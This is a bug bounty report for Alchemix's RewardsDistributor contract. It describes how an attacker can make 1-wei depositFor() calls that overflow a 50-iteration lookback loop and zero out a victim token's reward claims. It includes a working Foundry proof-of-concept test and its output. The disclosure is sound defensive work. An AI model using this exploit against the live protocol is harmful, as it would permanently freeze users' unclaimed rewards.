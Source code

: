 
# RewardDistributor claims can be DoSed through excess amount of userPoint creation

Submitted on May 18th 2024 at 03:47:27 UTC by @jecikpo for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31399

Report type: Smart Contract

Report severity: High

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RewardsDistributor.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)
- Permanent freezing of unclaimed royalties

## Description
## Brief/Intro
A malicious user can DoS (permanently lock) veALCX token owner's claims, by creating certain amount of `userPointHistory` entries by calling `VotingEscrow.depositFor()` on a target token multiple times.

## Vulnerability Details
`RewardDistributor` claims are calculated in the `_claimable()` function. The calculation first involves finding the last `userPoint` which was taken before the last `weekCursor`. This is done through a `for` loop that cycles from the last `userEpoch` until it finds one. The loop can cycle up to 50 times:
```
for (uint256 i = 0; i < 50; i++) {
```
hence if there are more `userPoints` than 50 the `_claimable()` function will return 0 as `toDistribute`. 

A malicious user can call the `VotingEscrow.depositFor()` on the attacked veALCX token multiple times and can deposit minimum amount tokens (1 wei is enough), this way he can create the `userPoints` that will DoS the function.

The solution would be to use binary search like in other places in the system.

## Impact Details
Te veALCX token holder loses irreversibly all claims. 

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/RewardsDistributor.sol#L365




## Proof of Concept
paste the following code into `Minter.t.sol`:
```
    function testDOSClaims() public {
        initializeVotingEscrow();

        // Get a fresh epoch
        hevm.warp(newEpoch());
        voter.distribute();

        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, false);

        deal(bpt, beef, TOKEN_1);
        hevm.prank(beef);
        IERC20(bpt).approve(address(veALCX), TOKEN_1);
        for (uint256 i; i < 60; i++) {
            hevm.prank(beef);
            veALCX.depositFor(tokenId1, 1);
            hevm.roll(block.number + 1);
        }

        // Finish the epoch
        hevm.warp(newEpoch());
        voter.distribute();

        // Go to the next epoch
        hevm.warp(newEpoch());
        voter.distribute();

         // And the next epoch
        hevm.warp(newEpoch());
        voter.distribute();

        uint256 claimable1 = distributor.claimable(tokenId1);
        uint256 claimable2 = distributor.claimable(tokenId2);
        console.log("claimable on tokenId1: %d", claimable1);
        console.log("claimable on tokenId2: %d", claimable2);
    }
```

We can see in the output that the `tokenId1` that was attacked is returning 0 of claimable amount, while the `tokenId2` returns the correct amount:
```
[PASS] testDOSClaims() (gas: 27805168)
Logs:
  claimable on tokenId1: 0
  claimable on tokenId2: 5158128881524544439089

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 77.54s (39.96s CPU time)
```
